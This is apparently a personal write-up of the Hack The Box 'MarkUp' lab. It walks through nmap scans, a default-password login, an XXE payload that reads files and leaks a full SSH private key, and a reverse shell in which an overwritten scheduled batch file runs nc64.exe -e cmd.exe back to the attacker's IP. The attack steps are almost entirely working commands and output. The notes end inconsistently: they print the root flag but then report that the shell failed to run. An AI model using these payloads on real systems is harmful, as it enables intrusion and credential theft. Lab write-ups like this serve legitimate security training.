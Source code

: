 ```yaml
---
title: "HTB MarkUp"
date: 2023-05-19T17:17:12-07:00

---
```


# MarkUp 

For this box I am following the provided wirghtup 

IP=10.129.23.18

myIP=10.10.15.113

## nmap scans

#### nmap -sCV $IP -oN nmap-markup.txt

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9fa0f78cc6e2a4bd718768823e5db79f (RSA)
|   256 907d96a96e9e4d4094e7bb55ebb30b97 (ECDSA)
|_  256 f910eb76d46d4f3e17f393d60b8c4b81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

#### sudo nmap -sC -A -Pn $IP

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9fa0f78cc6e2a4bd718768823e5db79f (RSA)
|   256 907d96a96e9e4d4094e7bb55ebb30b97 (ECDSA)
|_  256 f910eb76d46d4f3e17f393d60b8c4b81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   75.99 ms 10.10.14.1
2   76.22 ms 10.129.23.18

## Web Page

Defalted to login page 
tried 
U: admin
P: password
worked!

looking into the order page and will examin with burp to see what is hapinaing.

also ran gobuster dir -u http://$IP -w common.txt
only /index.php was 200 
most  403 or 503 with 2 301 -/images

when I try ^u it takes me to the code for index.php for all pages but using the inspecter I can find the <!-- Modified by Daniel : UI-Fix-9092--> 
we will try user *Daniel*

### Burp 

POST /process.php HTTP/1.1
Host: 10.129.23.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.23.18/services.php
Content-Type: text/xml
Content-Length: 121
Origin: http://10.129.23.18
DNT: 1
Connection: close
Cookie: PHPSESSID=oc1pddf95a38lmus3jrn2pj155

<?xml version = "1.0"?>
    <order>
        <quantity>
            1
        </quantity>
        <item>
            Home Appliances
        </item>
        <address>
            this is a test
        </address>
    </order>

Lets Try XXE - XML External Entity
lets edit 
<?xml version = "1.0"?>
*<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>*
<order>
        <quantity>
            1
        </quantity>
        <item>
            *&test;*
        </item>
        <address>
            this is a test
        </address>
    </order>

submit and get 
Your order for 
            ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[Ports]
COM1:=9600,n,8,1

         has been processed
         
This shows that the win.init file was posted so we know it is vunlerable.

---
eddit the attack to 

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>

response

Your order for 
`            -----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY----- `
         has been processed
         
now we make an ssh key

next try ssh

## ssh 

use the make file 
    $ touch id_rsa
    $ gedit id_rsa
    past and save
    $ chmod 400 id_rsa
    $ ls -al id_rsa
    -r-------- 1 jmk jmk 2602 May 19 15:45 id_rsa
 
 then use it 
  
    $ ssh -i id_rsa daniel@$IP
    daniel@MARKUP C:\Users\daniel>
    
    move to desktop and find user.txt
    daniel@MARKUP C:\Users\daniel\Desktop>type user.txt 
032d2fc8952a8c24e39c8f0ee9918ef7  
    
    whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

now moving on 

daniel@MARKUP C:\Log-Management>type job.bat 
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit

daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

used powershell

PS C:\Log-Management> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     72       5     2212       3800              3684   1 cmd
     87       6     3580       5000       0.06   3884   0 cmd
..
..
..
    361      22     9160      20984              1744   0 vmtoolsd
    201      16     4760      13624              3972   1 vmtoolsd
    *84       5      928       4032              2456   1 wevtutil*
    170      11     1440       6840               496   0 wininit
    257      12     2528      11308               580   1 winlogon
    311      15     7468      16496              2976   0 WmiPrvSE

so we will now upload nc64.exe 
we get it from 
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
then uses pyhon3 -m http.server 

on the Markup box 
wget http://myIP:8000/nc64.exe -outfile nc64.exe

then add it to the wevtutil.exe by 

echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.15.113 4444 > C:\Log-Management\job.bat

daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.15.113 4444 > C:\Log-Management\job.bat
 
 
 then set nc -lvnp 4444
 
 C:\Users\Administrator\Desktop> type root.txt
 type root.txt
 f574a3e7650cebd8c39784299cb570f8
 
I could not get it to run I did try to run nc and got this error 
"This version of C:\Log-Management\nc64.exe is not compatible with the version of Windows you'r
e running. Check your computer's system information and then contact the software publisher."



